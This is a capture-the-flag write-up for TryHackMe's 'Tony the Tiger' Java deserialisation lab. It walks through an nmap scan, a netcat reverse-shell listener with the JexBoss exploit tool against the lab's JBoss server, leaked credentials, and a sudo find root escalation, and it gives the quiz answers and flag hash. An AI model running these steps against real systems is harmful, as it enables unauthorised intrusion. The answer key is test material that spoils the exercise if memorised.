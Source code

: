 # [Tony the Tiger](https://tryhackme.com/room/tonythetiger)

## Learn how to use a Java Serialisation attack in this boot-to-root

# Support Material

### What is a great IRL example of an "Object"?

1. **Answer**: `lamp`

**Explanation:** In object-oriented programming, an object is an instance of a class that contains both data (attributes) and methods (functions). A lamp is a perfect real-world analogy because it has properties (color, size, wattage) and behaviors (turn on, turn off, dim).

---

### What is the acronym of a possible type of attack resulting from a "serialisation" attack?

1. **Answer:** `dos`

**Explanation:** Serialization attacks can lead to Denial of Service (DoS) attacks. When malicious serialized objects are deserialized, they can consume excessive system resources, crash applications, or cause infinite loops, effectively denying service to legitimate users.

---

### What lower-level format does data within "Objects" get converted into?

1. **Answer:** `byte stream`

**Explanation:** During serialization, objects are converted into a sequence of bytes (byte stream) that can be stored in files, transmitted over networks, or stored in databases. This process allows objects to be reconstructed later through deserialization.

---

# Reconnaissance

## Your first reaction to being presented with an instance should be information gathering.

### What service is running on port "8080"

1. Perform a service version scan using nmap
   - **Answer:** `Apache Tomcat/Coyote JSP engine 1.1`

```bash
nmap -sV IP
```

[SCREEN01]

---

### What is the name of the front-end application running on "8080"?

1. Navigate to the web application in your browser `http://IP:8080/`
   - **Answer:** `JBoss`

[SCREEN02]

---

# Find Tony's Flag!

## Tony has started a totally unbiased blog about taste-testing various cereals! He'd love for you to have a read...

### This flag will have the formatting of "THM{}"

1. Navigate to `http://IP/`, and read through the blog posts to understand the context
   - In the `http://IP/posts/my-first-post/` the post mentions: `any photos I post must have a deeper meaning`. This is a hint that images contain hidden information
   - Download the image file from `http://IP/posts/frosted-flakes/`, and extract hidden data from it using strings

```bash
strings be2sOV9.jpg
```

[SCREEN03]

---

# Find User JBoss' flag!

### This flag has the formatting of "THM{}"

1. Set up a netcat listener for reverse shell. Clone, prepare and run the JexBoss exploitation tool. Then access the compromised system and locate the flag

```bash
nc -lvnp 4444
```

```bash
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss/
pip install -r requires.txt
python jexboss.py -host http://10.10.111.229:8080
# First question: Answer `No`
# Second question: Answer `Yes`
# Provide your attacker IP address, and the port number
```

```bash
ls -la /home/jboss
cat /home/jboss/.jboss.txt
```

[SCREEN04]

---

# Escalation!

### The final flag does not have the formatting of "THM{}"

_We will, we will Rock You..._

1. Stabilize the shell and gather credentials
   - credentials are: `jboss:likeaboss`

```bash
cat /home/jboss/note
python -c 'import pty; pty.spawn("/bin/bash")'
su jboss
```

2. Enumerate sudo privileges, and exploit sudo find privilege using [GTFOBins](https://gtfobins.github.io/gtfobins/find/) to get encoded root flag
   - Hash is: `QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==`

```bash
sudo -l
sudo find . -exec /bin/sh \; -quit
cat /root/root.txt
```

[SCREEN05]

3. Navigate to [CyberChef](https://gchq.github.io/CyberChef/), and use "From Base64" operation to decode the hash. Crack decoded hash in [CrackStation](https://crackstation.net/)

[SCREEN06]
